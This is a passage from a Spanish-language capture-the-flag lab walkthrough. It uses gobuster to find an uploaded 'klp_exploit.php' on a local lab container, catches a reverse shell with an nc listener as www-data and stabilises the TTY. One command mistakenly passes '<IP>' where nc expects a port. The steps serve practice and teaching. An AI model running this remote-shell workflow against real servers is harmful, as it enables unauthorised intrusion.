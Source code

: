Y esto generara un diccionario de palabras `.txt` el cual utilizaremos para hacer `fuzzing` con `gobuster`.

```shell
gobuster dir -u http://<IP>/hackademy -w combinaciones.txt -x php -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/hackademy
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                combinaciones.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/klp_exploit.php      (Status: 500) [Size: 0]
Progress: 35152 / 35154 (99.99%)
===============================================================
Finished
===============================================================
```

Vemos que hemos encontrado el archivo, por lo que nos pondremos a la escucha de la siguiente forma:

```shell
nc -lvnp <IP>
```

Y nos metemos en la siguiente ruta:

```
URL = http://<IP>/hackademy/klp_exploit.php
```

Y si nos vamos donde teniamos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 35264
whoami
www-data
```

### Sanitizacion de shell (TTY)

```shell
script /dev/null -c bash
```
